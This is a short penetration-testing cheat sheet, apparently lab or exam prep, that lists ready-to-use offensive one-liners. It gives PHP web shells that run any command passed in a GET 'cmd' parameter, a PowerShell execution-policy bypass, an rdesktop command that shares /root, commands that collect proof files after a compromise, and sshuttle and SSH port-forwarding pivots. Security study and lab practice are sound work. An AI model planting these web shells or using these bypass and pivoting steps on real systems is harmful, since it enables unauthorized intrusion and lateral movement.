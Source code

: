 ## Remote Desktop for windows with share and 85% screen

### rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10

## PHP

### PHP command injection from GET Request

- * <?php echo system($_GET["cmd"]);?>

### * #Alternative

- * <?php echo shell_exec($_GET["cmd"]);?>

## Powershell

### Non-interactive execute powershell file

- * powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1

## Misc

### More binaries Path

- * export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/

## Linux proof

### hostname && whoami && cat proof.txt && /sbin/ifconfig

## Windows proof

### hostname && whoami.exe && type proof.txt && ipconfig /all

## SSH Tunneling / Pivoting

### sshuttle

- * sshuttle -vvr user@10.10.10.10 10.1.1.0/24

## Local port forwarding

### ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
